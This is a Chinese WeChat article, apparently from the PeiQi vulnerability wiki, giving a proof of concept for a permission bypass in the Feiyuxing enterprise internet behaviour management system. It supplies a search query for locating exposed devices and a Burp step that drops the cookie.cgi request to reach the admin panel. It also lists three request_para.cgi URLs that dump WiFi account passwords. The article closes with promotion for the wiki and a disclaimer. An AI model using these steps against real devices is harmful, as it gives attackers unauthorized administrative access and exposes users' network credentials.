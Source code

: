 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Lz08AHM1vrBvLbI2zKVCxg)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：漏洞描述🐑**

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

**二:  漏洞影响🐇**

****飞鱼星 企业级智能上网行为管理系统****

**三:  漏洞复现🐋**

```
title="飞鱼星企业级智能上网行为管理系统"
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4dSlmpOPVlXdPXPL23Uyo0fOzHcRoeicuXPJgkR15ibEDcKnPwUvboErGJias82dwmfXvO65kUguEZA/640?wx_fmt=png)

**访问主页使用 Burp 抓包**

```
http://xxx.xxx.xxx.xxx/home/index.html
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4dSlmpOPVlXdPXPL23Uyo02iauiaSComhy5ZhLdZuwuXxiafgvs6nolefvtt7C0Ts5jYUNVqtCFwTjA/640?wx_fmt=png)

**其中使用 Burp Durp 掉 cookie.cgi 请求包**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4dSlmpOPVlXdPXPL23Uyo0BRfMN9MGVnbEwv8aV8mpOk3FKaneQLardoMPmE3aX8Fqz4eI4kVYzg/640?wx_fmt=png)

**成功越权后台，其中还存在敏感信息泄露**

```
/request_para.cgi?parameter=wifi_info      #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4dSlmpOPVlXdPXPL23Uyo0H2FxhpkiajAFR2iaxbxk7ica4ITT4KBwzb2NNiaB8TA6A5x96sj9Bf3z4w/640?wx_fmt=png)

 ****四:  Goby & POC🦉****

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4dSlmpOPVlXdPXPL23Uyo0GxErHo9HlUh5To98525m3p8WxJYCzgFGIAub60khDAMvNWxBMD2tsQ/640?wx_fmt=png)

 ****五:  关于文库🦉****

****（文库暂时关闭一段时间，敏感问题解决后再次开放~）****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4WtnXiaQtWgfvq4DhHUTibj4kdCIpibz3T8kWS3Tt3RJWPGnvRI4fWu3xSSMIruSyl76vbyXTWDM4icA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4dSlmpOPVlXdPXPL23Uyo0ataaSk6StLOb9Sia3TLTuNrACThRx4kHoLvJYHt3EPc8SkPEFfh3g7Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4dSlmpOPVlXdPXPL23Uyo02URqsqJvEqkveYV9YPN2R9MmMT8Amvrn6vhVYlQBHC1LEIlgBLhvyw/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**